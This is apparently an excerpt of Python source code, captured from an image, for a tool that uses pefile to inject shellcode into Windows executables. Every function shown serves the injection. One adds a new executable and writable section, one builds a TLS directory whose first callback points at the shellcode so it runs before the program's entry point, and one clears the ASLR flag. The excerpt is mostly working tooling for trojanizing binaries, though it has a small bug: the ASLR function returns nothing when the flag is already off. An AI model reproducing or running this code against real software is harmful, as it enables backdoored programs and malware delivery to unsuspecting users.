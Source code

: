 ```plain
    print("    VirtualSize:               " + str(hex(section.Misc_VirtualSize)))


def update_tls_structure(rva, pe: pefile.PE) -> pefile.PE:
    # Set AddressOfIndex (It will point to the same structure, SizeOfZeroFill field)
    pe.set_dword_at_rva(rva + 8, pe.OPTIONAL_HEADER.ImageBase + rva + 16)
    # Set AddressOfCallBacks to point to the callbacks array
    pe.set_dword_at_rva(rva + 12, pe.OPTIONAL_HEADER.ImageBase + rva + 24)
    print(f"[+] AddressOfCallBacks pointing to the array of callback "
          f"addresses (va: 0x{pe.OPTIONAL_HEADER.ImageBase + rva + 24:x})")
    # Set first pointer of the callbacks array to point to the Shellcode
    pe.set_dword_at_rva(rva + 24, pe.OPTIONAL_HEADER.ImageBase + rva + 32)
    print(f"[+] First callback entry pointing to the shellcode (va: 0x{pe.OPTIONAL_HEADER.ImageBase + rva + 32:x})")
    # Update the IMAGE_DIRECTORY_ENTRY_TLS.
    pe.OPTIONAL_HEADER.DATA_DIRECTORY[9].VirtualAddress = rva
    pe.OPTIONAL_HEADER.DATA_DIRECTORY[9].Size = 0x18
    print("[+] IMAGE_DIRECTORY_ENTRY_TLS updated")
    print(f"    VirtualAddress: 0x{pe.OPTIONAL_HEADER.DATA_DIRECTORY[9].VirtualAddress:x} ")
    print(f"    Size: 0x{pe.OPTIONAL_HEADER.DATA_DIRECTORY[9].Size:x} ")
    return pe


def section_manage(pe, shellcode):
    pe = create_section(pe, shellcode, 0xE0000020)
    pe = update_tls_structure(pe.sections[-1].VirtualAddress, pe)
    pe = disable_aslr(pe)
    return pe


def disable_aslr(pe: pefile.PE) -> pefile.PE:
    IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE = 0x40  # flag indicates relocation at
    if (pe.OPTIONAL_HEADER.DllCharacteristics & IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE):  # check if ASLR is enabled
        pe.OPTIONAL_HEADER.DllCharacteristics &= ~IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE
        print("ASLR disabled")
        return pe


def inject_tls(binary, shellcode):
    print(f"[+] Shellcode size: {len(shellcode)} bytes")
    pe = pefile.PE(data=binary)
    if not hasattr(pe, 'DIRECTORY_ENTRY_TLS'):
        print("[+] TLS Directory not present")
        # Add the 32 bytes TLS structure to the shellcode
        shellcode = bytes('\0' * 32, 'utf-8') + shellcode
        pe = section_manage(pe, shellcode)

    # DIRECTORY_ENTRY_TLS present
    else:
        print("[-] The binary does already have the TLS Directory.")
    return pe
```
